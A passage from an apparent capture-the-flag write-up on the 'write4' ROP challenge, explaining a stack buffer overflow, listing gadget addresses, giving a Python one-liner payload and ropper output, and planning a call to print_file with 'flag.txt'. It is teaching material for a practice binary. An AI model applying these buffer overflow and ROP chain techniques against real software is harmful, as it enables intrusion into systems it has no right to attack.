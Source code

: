 Luckily for us, in this scenario the `pop r14` and `pop r15` instructions were right next to each other. This means that we can put both of their values on the stack without needing another ROP gadget (recall that since our input buffer is on the stack, we can add more and more addresses on the stack).

So far, our stack buffer overflow should look like this:
- "A" written 40 times.
- `0x0000000000400690`, which will make the program jump to the `pop r14; pop r15; ret` instructions.
- `0x0000000000601028`, which will set `r14` to the memory location where we are writing our string.
- `0x666c61672e747874`, which will set `r15` to "flag.txt" written in ASCII.
- `0x0000000000400628`, which will jump to the `mov qword ptr [r14], r15; ret;` instruction after we have set `r14` and `r15`.

This gives us the following input (which won't work yet).

```python
python -c "import sys; sys.stdout.buffer.write(b'A'*40 + b'\x90\x06\x40\x00\x00\x00\x00\x00' + b'\x28\x10\x60\x00\x00\x00\x00\x00' + b'\x66\x6c\x61\x67\x2e\x74\x78\x74' + b'\x28\x06\x40\x00\x00\x00\x00\x00')" | ./write4
```

In case you still don't understand why this works, here is what is actually going on:
1. Because of the buffer overflow, RIP is overwritten with `0x0000000000400690`, which is the location of the `pop r14; pop r15; ret` ROP gadget.
2. When `pop r14` is executed, we will get `0x0000000000601028` in `r14`.
3. When `pop r15` is executed, we will get `0x666c61672e747874` in `r15`.
4. After that, `0x0000000000400628` is on the stack, which means that the `RET` instruction will jump to that location.
5. The next ROP gadget that we execute contains `mov qword ptr [r14], r15;`, which moves our copies our string into the location that `r14` points to.

We still need to do the following for the exploit to work:
1. Set `rdi` to `0x00601028` (recall that the first parameter to a function is in `rdi` for x86-64 binaries)
2. Jump to `print_file()`

### Calling the Function

Using ropper, we can find a way for us to modify `rdi` the same way we modified `r14` and `r15`.
```bash
$ ropper --file write4 --search "pop rdi; ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi; ret

[INFO] File: write4
0x0000000000400693: pop rdi; ret;
```

If we jump to this ROP gadget and add `0x0000000000601028` onto the stack, then when the `pop rdi` instruction is executed, we will have `rdi` point to the location of our string. From there, we can add `0x0000000000400510` to the stack, which is the location of the PLT entry for `print_file(char *filename)`. When the `RET` instruction is executed, we will call `print_file("flag.txt")`, which will solve the problem!

